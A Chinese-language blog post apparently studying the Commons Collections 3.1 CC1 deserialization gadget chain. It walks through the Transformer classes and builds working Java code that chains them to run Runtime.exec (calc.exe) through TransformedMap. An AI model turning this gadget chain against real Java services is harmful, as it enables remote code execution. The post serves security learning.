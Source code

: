 ```yaml
---
layout: post
title: "java安全之CC1浅学(1)"
date: "2022-11-09T20:21:25.944Z"
---
```

java安全之CC1浅学(1)
===============

CC1链的入门学习

前言
==

由于CC链还是比较复杂的，我们可以先看命令执行的部分`payload`之后再加上反序列化部分组成一个完整的payload

调试一
===

项目导入依赖，这里使用3.1版本

    <!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.1</version>
    </dependency>
    

先来看看以下几个类

Transformer
-----------

Transformer是⼀个接⼝，它只有⼀个待实现的⽅法

    public interface Transformer {
        public Object transform(Object input);
    }
    

TransformedMap在转换Map的新元素时，就会调⽤transform⽅法，这个过程就类似在调⽤⼀个”回调函数“，这个回调的参数是原始对象

InvokerTransformer
------------------

`InvokerTransformer`是实现了`Transformer`接⼝的⼀个类，这个类可以⽤来执⾏任意⽅法，这也是反序列化能执⾏任意代码的关键。 在实例化这个`InvokerTransformer`时，需要传⼊三个参数，第⼀个参数是待执⾏的⽅法名，第⼆个参数是这个函数的参数列表的参数类型，第三个参数是传给这个函数的参数列表；

关键代码如下：

    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
            this.iMethodName = methodName; //函数名        
            this.iParamTypes = paramTypes; //函数参数的类型        
            this.iArgs = args;             //参数对象
    }
       public Object transform(Object input) {
       Class cls = input.getClass();     //获取input的类
       Method method = cls.getMethod(this.iMethodName, this.iParamTypes); //调用方法
       return method.invoke(input, this.iArgs);              //执行
    }
    

![image-20221109182211850](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221109182217747-1126583223.png)

很清楚的可以看到，`方法名`，`方法所需的参数类型`，`方法的参数`，我们都可以控制，通过Java反射机制，我们可以构造一个命令执行：

    public class Test {
        public static void main(String[] args) throws Exception {
            Runtime runtime = Runtime.getRuntime();
            Transformer invoketransformer = new InvokerTransformer("exec",
                                            new Class[]{String.class},
                                            new Object[]{"calc.exe"});
            invoketransformer.transform(runtime);
        }
    }
    

![image-20221109220105415](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221109220113652-1197692963.png)

这就需要一个条件，在调用`transform`方法的时候，需要传递一个`Runtime.getRuntime()`，这几乎是不可能的，没有人会在反序列化后调用transform方法还传递一个Runtime的实例进去。我们需要把攻击所需要的条件尽可能的缩小，实现在反序列化时就能够rce，所以需要想办法把传递`Runtime.getRuntime()`这一条件给去掉。接着就找到了`ConstantTransformer`这个类

ConstantTransformer
-------------------

ConstantTransformer是实现了Transformer接⼝的⼀个类，它的过程就是在构造函数的时候传⼊⼀个对象，并在transform⽅法将这个对象再返回：

    public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }
        public Object transform(Object input) {
        return iConstant;
    }
    

所以他的作⽤其实就是包装任意⼀个对象，在执⾏回调时返回这个对象，进⽽⽅便后续操作，那么和上面的`InvokerTransformer`搭配一下

    public class Test {
        public static void main(String[] args) throws Exception {
            Object constantTransformer= new ConstantTransformer(Runtime.getRuntime()).transform(123);
            Transformer invoketransformer = new InvokerTransformer("exec",
                                            new Class[]{String.class},
                                            new Object[]{"calc.exe"});
            invoketransformer.transform(constantTransformer);
        }
    }
    

ChainedTransformer
------------------

ChainedTransformer也是实现了Transformer接⼝的⼀个类，它的作⽤是将内部的多个Transformer串在⼀起。其transform方法实现了对每个传入的transformer都调用其transform方法，并将结果作为下一次的输入传递进去。

`ChainedTransformer`的`transform`函数如下

    public Object transform(Object object) {
            for(int i = 0; i < this.iTransformers.length; ++i) {
                object = this.iTransformers[i].transform(object);
            }
            return object;
    }
    

`ChainedTransformer`类的`构造函数`，其中iTransformers数组是用户自己定义的：

三个继续搭配一下

    public class Test {
        public static void main(String[] args) throws Exception {
            ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
                    new ConstantTransformer(Runtime.getRuntime()),
                    new InvokerTransformer("exec",
                            new Class[]{String.class},
                            new Object[]{"calc.exe"})
            });
            chain.transform(123);
        }
    }
    

![image-20221109221740566](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221109221748789-1143548857.png)

此时只要`ChainedTransformer`反序列化后调用`transform`方法并传递任意内容即可实现rce

TransformedMap
--------------

TransformedMap⽤于对Java标准数据结构Map做⼀个修饰，被修饰过的Map在添加新的元素时，将可以执⾏⼀个回调。我们通过下⾯这⾏代码对`innerMap`进⾏修饰，传出的`outerMap`即是修饰后的`Map`：

    Map outerMap = TransformedMap.decorate(innerMap, keyTransformer,
    valueTransformer);
    

其中，keyTransformer是处理新元素的Key的回调，valueTransformer是处理新元素的value的回调。 我们这⾥所说的”回调“，并不是传统意义上的⼀个回调函数，⽽是⼀个实现了Transformer接⼝的类。也就是可以调用其他的`tramsform`，这一点很关键

payload
-------

    public class CommonCollections1 {
        public static void main(String[] args) throws Exception {
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.getRuntime()),
                    new InvokerTransformer("exec", new Class[]{String.class},
                            new Object[]{"C:/Windows/System32/calc.exe"}),
            };
            Transformer transformerChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
            outerMap.put("test", "xxxx");
        }
    }
    

首先创建了⼀个`ChainedTransformer`，其中包含两个`Transformer`：第⼀个是`ConstantTransformer`， 直接返回当前环境的Runtime对象；第⼆个是`InvokerTransformer`，执⾏Runtime对象的exec⽅法，参 数是`C:/Windows/System32/calc.exe` 。 当然，这个`transformerChain`只是⼀系列回调，我们需要⽤其来包装`innerMap`，使⽤的前⾯说到的 `TransformedMap.decorate`

    Map innerMap = new HashMap();
    Map outerMap = TransformedMap.decorate(innerMap, null, chain);
    

最后，怎么触发回调呢？就是向Map中放⼊⼀个新的元素：

    outerMap.put("test", "xxxx")；
    

![image-20221109222453074](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221109222504030-141103226.png)

小结
==

到这儿，总算是有点思绪，当然，上⾯的代码执⾏demo，它只是⼀个⽤来在本地测试的类。在实际反序列化漏洞中，我们需要将上⾯最终⽣成的o`uterMap`对象变成⼀个序列化流